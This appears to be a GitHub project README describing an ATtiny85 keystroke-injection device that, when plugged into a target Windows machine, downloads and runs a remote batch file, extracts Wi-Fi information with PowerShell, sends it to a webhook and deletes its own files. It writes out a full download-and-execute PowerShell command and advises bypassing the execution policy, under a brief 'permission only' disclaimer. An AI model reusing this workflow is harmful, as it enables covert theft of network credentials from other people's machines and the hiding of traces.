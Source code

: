 ## Project: Automated Wi-Fi Info Extraction with ATtiny85

### Author: Easin Arafat (KingBOB)

---

### **Overview**

This project automates the process of extracting Wi-Fi information from a Windows machine using a single batch file (`trigger.bat`). The ATtiny85 USB device emulates a keyboard to execute the batch script, which performs the following tasks:

1. Downloads all required files (`wifi_info.ps1`).
2. Executes the PowerShell script to extract Wi-Fi data.
3. Sends the data to a local webhook.
4. Cleans up by deleting all temporary files.

---

### **Steps to Use**

#### **1. Prepare the Environment**

- Host the batch file (`trigger.bat`) and the PowerShell script (`wifi_info.ps1`) on a GitHub repository or a web server.
- Ensure the webhook (`webhook.php`) is set up and accessible on `http://localhost/webhook/webhook.php`.

#### **2. Test Manually**

1. Open Command Prompt.
2. Run the following command to execute `trigger.bat`:
   ```cmd
   powershell -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/<your-repo>/trigger.bat' -OutFile %temp%\trigger.bat; Start-Process %temp%\trigger.bat"
   ```
3. Verify that:
   - The `wifi_info.ps1` script runs successfully.
   - Data is sent to the webhook.
   - Temporary files are deleted.

#### **3. Deploy with ATtiny85**

- Program the ATtiny85 with the provided script.
- Plug the ATtiny85 into the target machine.
- It will:
  1. Open CMD.
  2. Download and execute `trigger.bat`.

---

### **Important Notes**

1. Use this project only in a controlled environment or with explicit permission.
2. Ensure PowerShell execution policy is not restricted (`ExecutionPolicy Bypass`).
3. Test thoroughly in a sandbox or virtual machine before deployment.

---

### **Author**

Easin Arafat (KingBOB)
